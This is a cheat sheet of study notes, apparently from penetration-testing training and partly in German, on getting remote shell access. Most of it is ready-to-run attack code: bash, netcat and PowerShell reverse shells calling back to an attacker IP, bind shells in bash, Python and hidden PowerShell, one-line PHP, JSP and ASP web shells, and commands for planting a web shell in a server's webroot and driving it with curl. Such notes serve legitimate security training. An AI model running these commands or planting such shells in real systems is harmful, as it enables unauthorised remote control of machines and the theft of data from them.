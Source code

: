 # Reverse Shell

1. start `netcat` listener on a port of your choice
 ```
 nc -lvnp 1234
```

| Flag | Description                                                    |
| ---- | -------------------------------------------------------------- |
| `-l` | `Listen mode, to wait for a connection to connect to us.`      |
| `-v` | `Verbose mode, so that we know when we receive a connection.`  |
| `-n` | `Disable DNS Resolution and only connect via IPs, to speed up` |
| `-p` | `Port` netcat should be listening from                         |
2. Get your `own IP` to be able to send the connection to you (IP in tun0)
```
ip a
```

3.  Reverse Shell command for Linux, 2 options
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

3. Reverse Shell command for Powershell Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


# Bind Shell
Eine **Bind Shell** bedeutet, dass du auf einem entfernten Rechner eine Shell öffnest und sie an einen bestimmten Port bindest, sodass du dich von einem anderen Rechner aus damit verbinden kannst. Das bedeutet, dass der entfernte Rechner selbst als Server agiert, auf dem ein Listener läuft.

- IP 0.0.0.0 bedeutet, dass die Shell auf **allen** verfügbaren Netzwerk-Interfaces lauscht (also nicht nur auf einer bestimmten IP).
#### Commands to start a Bind Shell:
Bash:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Connect to the Bindshell
```shell-session
nc 10.10.10.1 1234
```

## To be able to access the command history in a Shell we need to upgrade our TTY

1. upgrade the type of our shell to a full TTY
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```
2. After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell-session
www-data@remotehost$ ^Z

Hussware0@htb[/htb]$ stty raw -echo
Hussware0@htb[/htb]$ fg
```
3. Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

# Web Shell
A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Web Shell Skript:
php
```php
<?php system($_REQUEST["cmd"]); ?>
```
jsp
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
asp
```asp
<% eval request("cmd") %>
```

#### Damir die Webshell funktioniert muss sie ins `Webroot-Verzeichnis` des Servers gespeichert sein, damit sie über den browser aufgerufen werden kann.  Z.b. kannst dud as Skript über eine Upload funktion hochladen.

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
Wenn du `RCE` hast, kannst du direkt ins Verzeichnis schreiben zb auf einen Linux Host running apache:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Access your web shell

Over the browser:
![](CPTS/img/8ddc2f302e9bc18aea6a03765cdd10f0_MD5.jpeg)

Via curl:
```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```
